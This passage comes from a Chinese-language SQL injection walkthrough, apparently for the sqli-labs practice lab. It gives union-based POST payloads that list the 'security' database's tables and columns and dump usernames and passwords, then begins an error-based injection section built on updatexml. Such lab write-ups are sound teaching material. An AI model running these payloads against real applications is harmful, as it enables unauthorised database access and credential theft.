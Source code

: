 ![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919558.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144919558.png)

获取 security 库的所有表，

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security")  -- a
```

![https://i-blog.csdnimg.cn/img_convert/b623c965e2933bed0532ca8d130782ac.png](https://i-blog.csdnimg.cn/img_convert/b623c965e2933bed0532ca8d130782ac.png)

获取 users 表的所有字段

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users")  -- a
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144920991.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144920991.png)

获取数据库用户的密码

POST:

```
passwd=1&submit=Submit&uname=a' union select 1,group_concat(id, ':', username, ':', password) from security.users -- a
```

![https://i-blog.csdnimg.cn/img_convert/87074bcb81dac829e6a6f0ae17001fa6.png](https://i-blog.csdnimg.cn/img_convert/87074bcb81dac829e6a6f0ae17001fa6.png)

#### 方式二：报错注入

- 判断是否报错
  
  a'

报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1' LIMIT 0,1' at line 1`

适合使用报错注入。

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144920961.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144920961.png)

- 判断报错条件
  
  `a' and updatexml(1,0x7e,3) -- a`

页面正常显示报错信息，确定报错函数可以使用。

![https://i-blog.csdnimg.cn/img_convert/a7a438dd9fabf7f009b585ce64d198f0.png](https://i-blog.csdnimg.cn/img_convert/a7a438dd9fabf7f009b585ce64d198f0.png)

- 获取所有数据库，

`a' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),33,31)),3) -- a`
